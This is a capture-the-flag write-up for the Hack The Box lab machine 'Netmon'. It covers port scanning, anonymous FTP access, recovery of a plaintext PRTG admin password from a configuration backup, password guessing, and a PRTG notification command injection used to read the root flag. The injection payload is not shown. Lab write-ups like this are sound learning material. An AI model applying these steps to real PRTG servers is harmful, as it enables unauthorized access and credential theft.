





---
search:
  exclude: true
---
# Netmon Writeup

## Introduction :

Netmon is an easy Windows box that was released back in March 2019.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/ ]
      → nmap -F 10.10.10.152 --top-ports 10000
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-09 08:36 CET
      Nmap scan report for 10.10.10.152
      Host is up (0.037s latency).
      Not shown: 8313 closed ports
      PORT      STATE SERVICE
      21/tcp    open  ftp
      80/tcp    open  http
      135/tcp   open  msrpc
      139/tcp   open  netbios-ssn
      445/tcp   open  microsoft-ds
      5985/tcp  open  wsman
      47001/tcp open  winrm
    
      Nmap done: 1 IP address (1 host up) scanned in 6.13 seconds
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/ ]
      → nmap -sCV -p21,80,135,139,445,5985,47001 10.10.10.152
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-09 08:36 CET
      Nmap scan report for 10.10.10.152
      Host is up (0.035s latency).
    
      PORT      STATE SERVICE      VERSION
      21/tcp    open  ftp          Microsoft ftpd
      | ftp-anon: Anonymous FTP login allowed (FTP code 230)
      | 02-02-19  11:18PM                 1024 .rnd
      | 02-25-19  09:15PM       <****DIR>          inetpub
      | 07-16-16  08:18AM <****DIR>          PerfLogs
      | 02-25-19  09:56PM <****DIR>          Program Files
      | 02-02-19  11:28PM <****DIR>          Program Files (x86)
      | 02-03-19  07:08AM <****DIR>          Users
      |_02-25-19  10:49PM <****DIR>          Windows
      | ftp-syst:
      |_  SYST: Windows_NT
      80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
      |_http-server-header: PRTG/18.1.37.13946
      | http-title: Welcome | PRTG Network Monitor (NETMON)
      |_Requested resource was /index.htm
      |_http-trane-info: Problem with XML parsing of /evox/about
      135/tcp   open  msrpc        Microsoft Windows RPC
      139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
      445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
      5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
      |_http-server-header: Microsoft-HTTPAPI/2.0
      |_http-title: Not Found
      47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
      |_http-server-header: Microsoft-HTTPAPI/2.0
      |_http-title: Not Found
      Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
    
      Host script results:
      |_clock-skew: mean: 31s, deviation: 0s, median: 30s
      |_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
      | smb-security-mode:
      |   authentication_level: user
      |   challenge_response: supported
      |_  message_signing: disabled (dangerous, but default)
      | smb2-security-mode:
      |   2.02:
      |_    Message signing enabled but not required
      | smb2-time:
      |   date: 2019-12-09T07:37:33
      |_  start_date: 2019-12-09T07:33:41
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 20.27 seconds

## **Part 2 : Getting User Access**

Looking at the results, we see that ftp allows us to login as the user account , so we login using the default credentials (anonymous:anonymous:)
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/ ]
      → ftp 10.10.10.152
      Connected to 10.10.10.152.
      220 Microsoft FTP Service
      Name (10.10.10.152:nihilist): anonymous
      331 Anonymous access allowed, send identity (e-mail name) as password.
      Password:
      230 User logged in.
      Remote system type is Windows_NT.
      ftp> ls
      200 PORT command successful.
      125 Data connection already open; Transfer starting.
      02-02-19  11:18PM                 1024 .rnd
      02-25-19  09:15PM       <****DIR>          inetpub
      07-16-16  08:18AM <****DIR>          PerfLogs
      02-25-19  09:56PM <****DIR>          Program Files
      02-02-19  11:28PM <****DIR>          Program Files (x86)
      02-03-19  07:08AM <****DIR>          Users
      02-25-19  10:49PM <****DIR>          Windows
      226 Transfer complete.
      ftp> cd Users
      250 CWD command successful.
      ftp> ls
      200 PORT command successful.
      125 Data connection already open; Transfer starting.
      02-25-19  10:44PM <****DIR>          Administrator
      02-02-19  11:35PM <****DIR>          Public
      226 Transfer complete.
      ftp> cd Public
      250 CWD command successful.
      ftp> ls
      200 PORT command successful.
      125 Data connection already open; Transfer starting.
      02-03-19  07:05AM <****DIR>          Documents
      07-16-16  08:18AM <****DIR>          Downloads
      07-16-16  08:18AM <****DIR>          Music
      07-16-16  08:18AM <****DIR>          Pictures
      02-02-19  11:35PM                   33 user.txt
      07-16-16  08:18AM <****DIR>          Videos
      226 Transfer complete.
      200 PORT command successful.
      125 Data connection already open; Transfer starting.
      WARNING! 1 bare linefeeds received in ASCII mode
      File may not have transferred correctly.
      226 Transfer complete.
      33 bytes received in 0.0344 seconds (958 bytes/s)
      ftp> quit
      221 Goodbye.
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/ ]
      → cat user.txt
      ddXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

And that's it ! we have the user flag. 

## **Part 3 : Getting Root Access**

In order to find the root flag, we need to enumerate a little bit what lies inside the /ProgramData folder.
    
    
      ftp> cd /ProgramData
      250 CWD command successful.
      ftp> dir
      200 PORT command successful.
      125 Data connection already open; Transfer starting.
      02-02-19  11:15PM       <****DIR>          Licenses
      11-20-16  09:36PM <****DIR>          Microsoft
      02-02-19  11:18PM <****DIR>          Paessler
      02-03-19  07:05AM <****DIR>          regid.1991-06.com.microsoft
      07-16-16  08:18AM <****DIR>          SoftwareDistribution
      02-02-19  11:15PM <****DIR>          TEMP
      11-20-16  09:19PM <****DIR>          USOPrivate
      11-20-16  09:19PM <****DIR>          USOShared
      02-25-19  09:56PM <****DIR>          VMware
      226 Transfer complete.
      ftp> cd Paessler
      250 CWD command successful.
      ftp> dir
      200 PORT command successful.
      125 Data connection already open; Transfer starting.
      12-09-19  02:35AM <****DIR>          PRTG Network Monitor
      226 Transfer complete.

Interesting ! seems like there is a PRTG Service running, let's see if we can get anything out of it.
    
    
      ftp> cd "PRTG Network Monitor"
      250 CWD command successful.
      ftp> dir
      200 PORT command successful.
      125 Data connection already open; Transfer starting.
      02-02-19  11:40PM       <****DIR>          Configuration Auto-Backups
      12-09-19  02:34AM <****DIR>          Log Database
      02-02-19  11:18PM <****DIR>          Logs (Debug)
      02-02-19  11:18PM <****DIR>          Logs (Sensors)
      02-02-19  11:18PM <****DIR>          Logs (System)
      12-09-19  02:34AM <****DIR>          Logs (Web Server)
      02-25-19  07:01PM <****DIR>          Monitoring Database
      02-25-19  09:54PM              1189697 PRTG Configuration.dat
      02-25-19  09:54PM              1189697 PRTG Configuration.old
      07-14-18  02:13AM              1153755 PRTG Configuration.old.bak
      12-09-19  02:35AM              1647616 PRTG Graph Data Cache.dat
      02-25-19  10:00PM <****DIR>          Report PDFs
      02-02-19  11:18PM <****DIR>          System Information Database
      02-02-19  11:40PM <****DIR>          Ticket Database
      02-02-19  11:18PM <****DIR>          ToDo Database
      226 Transfer complete.
      ftp>

Looks like we have a few configuration files to work with, let's save the "PRTG Configuration.old.bak" one locally and see if we can get anything out of it. 
    
    
      ftp> get "PRTG Configuration.old.bak'
    200 PORT command successful.
    550 The system cannot find the file specified.
    ftp> get "PRTG Configuration.old.bak"
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    226 Transfer complete.
    1153755 bytes received in 0.516 seconds (2.13 Mbytes/s)
    ftp> quit
    221 Goodbye.
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Netmon ]
    →nano PRTG\ Configuration.old.bak
    
    
    
      <****dbpassword> <****!-- User: prtgadmin -->
        PrTg@dmin2018 <****/dbpassword>

And we have unencrypted credentials ! Let's see if we can use them somewhere. 

Of course these are the old credentials, so let's update the password to : **PrTg@dmin2019**

And we are logged in ! now let's navigate to the Notifications page, into the "Executing Program" tab, where the command injection vulnerability is located.

Once the infected notification is created, execute it and check out the ftp C:/Users/Public directory once again. 

    
    
      ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    02-03-19  07:05AM       <****DIR>          Documents
    07-16-16  08:18AM <****DIR>          Downloads
    07-16-16  08:18AM <****DIR>          Music
    07-16-16  08:18AM <****DIR>          Pictures
    02-02-19  11:35PM                   33 user.txt
    02-02-19  11:35PM                   33 nihilist.txt
    07-16-16  08:18AM <****DIR>          Videos
    226 Transfer complete.
    ftp> get nihilist.txt
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    WARNING! 1 bare linefeeds received in ASCII mode
    File may not have transferred correctly.
    226 Transfer complete.
    33 bytes received in 0.0438 seconds (754 bytes/s)
    ftp> quit
    221 Goodbye.
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Netmon ]
    → cat nihilist.txt
    30XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

And that's it ! we have been able to print out the root flag. 

## **Conclusion**

Here we can see the progress graph :

